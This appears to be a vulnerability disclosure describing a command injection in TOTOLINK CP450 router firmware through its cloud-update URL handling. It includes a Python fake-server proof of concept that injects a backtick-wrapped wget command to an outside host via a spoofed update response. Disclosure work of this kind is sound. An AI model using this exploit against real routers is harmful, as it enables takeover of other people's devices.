



## CP450 Command Injection

### Overview

* Vendor: TOTOLINK

* Product: CP450
* Version: TOTOLINK_C8B193C-1H_CP450_CP0017_8881A_SPI_8M64M_V4.1.0cu.747_B20191224_ALL.web

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20200414/2254ce90058da1a549566852c86031db.zip

### Vulnerability details

In the function `download_firmware`, the program gets the download link as `v6` from the file `"/var/cloudupg.ini"`, and passes it directly to the system function without any checks for `v6`. If attackers can control the download link `v6`, arbitrary commands will be executed.



After checking the source of the file `"/var/cloudupg.ini"`, We finded the function traceback: `uci_cloudupdate_config<-parse_upgserver_info<-connect_cloud<-cloudupdate_check`. In this call chain, the program sends a request to a server through a socket, parses the returned response, and writes the `url` parameter to the file `"/var/cloudupg.ini"`.

Before `cloudupdate_check` there is a function call of `init_host_config`



We can find the domain name of the server in this function.



#### Man-in-the-middle attack

1. make a fake server with follow response

```
HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Wed, 13 Apr 2022 12:50:54 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 98
Connection: close

{"mode":"1","url":"`wget http://192.168.0.253:8000`","magicid":"foo","version":"1","svn":"","plugin":[],"protocol":"3.0"}
```

we can use payload like follows

```
import socket

sSock=socket.socket()
sSock.bind(('192.168.0.188',80))
sSock.listen(1000)

cSock,addr=sSock.accept()

if(True):
    str1=cSock.recv(1024)
    print("client:"+str1.decode('utf-8'))

    #str2=input('>>>')

    str2='''HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Wed, 13 Apr 2022 12:50:54 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 98
Connection: close

{"mode":"1","url":"`wget http://192.168.0.253:8000`","magicid":"foo","version":"1","svn":"","plugin":[],"protocol":"3.0"}'''
    cSock.send(str2.encode())

cSock.close()
```

2. make dnsresolve `update.carystudio.com` to the fake server
3. reboot the router
4. check http server `192.168.0.253` then we have successfully run command `wget http://192.168.0.253:8000`
